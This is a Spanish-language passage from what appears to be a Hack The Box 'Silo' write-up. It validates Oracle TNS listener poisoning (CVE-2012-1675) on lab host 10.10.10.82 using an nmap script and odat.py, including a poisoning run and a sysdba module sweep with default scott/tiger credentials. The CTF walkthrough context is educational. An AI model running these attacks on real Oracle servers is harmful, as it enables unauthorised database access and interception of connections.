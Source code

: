 #### Validando CVE-2012-1675

![131google_cvedetails_cve20201675](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131google_cvedetails_cve20201675.png)

Podemos volver a validar si realmente es vulnerable con un script de `nmap`:

* [github.com/bongbongco/CVE-2012-1675 - Oracle TNS listener.nse (Tester vuln/not-vuln)](https://github.com/bongbongco/CVE-2012-1675).

```bash
❭ wget https://raw.githubusercontent.com/bongbongco/CVE-2012-1675/master/oracle-tns-poison.nse
❭ nmap -p 1521 --script=oracle-tns-poison 10.10.10.82 -oN tnsPoisonTester
...
Nmap scan report for 10.10.10.82

PORT     STATE SERVICE
1521/tcp open  oracle
|_oracle-tns-poison: Host is vulnerable!

```

Lito, tenemos claro que es vulnerable, ¿pero a qué? Bueno, leyendo sobre la vulnerabilidad nos indica que como atacantes podemos ejecutar comandos de base de datos por medio de una instalación de una base de datos/instancia/SID que ya exista, esto para efectuar un *Man-in-the-middle* para robar las conexiones que pasan por la base de datos.

* [Reporte oficial y completo de la vulnerabilidad](https://seclists.org/fulldisclosure/2012/Apr/204).
* [Oracle TNS Listener Envenamiento Remoto](https://shieldnow.co/2018/02/09/oracle-tns-listener-remote-poisoning/).
* [Vulnerabilidad crítica Oracle - CVE-2012-1675](https://blog.segu-info.com.ar/2012/05/vulnerabilidad-critica-y-parche-para.html).

...

Después de un rato jugando con la herramienta `odat.py` y su apartado llamado [**tnspoison**](https://github.com/quentinhardy/odat/wiki/tnspoison) que está relacionado con este CVE, no logramos hacerlo funcionar, lo ejecutamos, abrimos **Wireshark**, vemos los paquetes que pasan pero nada más.

```bash
❭ python3 odat.py tnspoison -s 10.10.10.82 -d XE --poison

[1] (10.10.10.82:1521): Local proxy on port 1522 and TNS poisoning attack to 10.10.10.82:1521 are starting. Waiting for connections...
```

Al darle a la ayuda propia del script vemos la opción `--sysdba`, la que permite ejecutar todos los procesos como administradores de la base de datos. Como vimos que anteriormente nos dejó entrar mediante `sqlplus` como **sysdba**, podríamos "volver a empezar" pero ahora con ese parámetro de más, quizás obtengamos nueva info.

El primero módulo (como lo dicen ellos) a usar con `odat.py` seria **all**, para validar que <modulos> están disponibles y empezar a jugar con la [Wiki](https://github.com/quentinhardy/odat/wiki/tnspoison) entre cada uno.

```bash
❭ python3 odat.py all -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba
[+] Checking if target 10.10.10.82:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.10.10.82:1521 is well configured. Continue...

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning

[2] (10.10.10.82:1521): Testing all authenticated modules on sid:XE with the scott/tiger account 
[2.1] UTL_HTTP library ?
[+] OK
[2.2] HTTPURITYPE library ?
[+] OK
[2.3] UTL_FILE library ?
```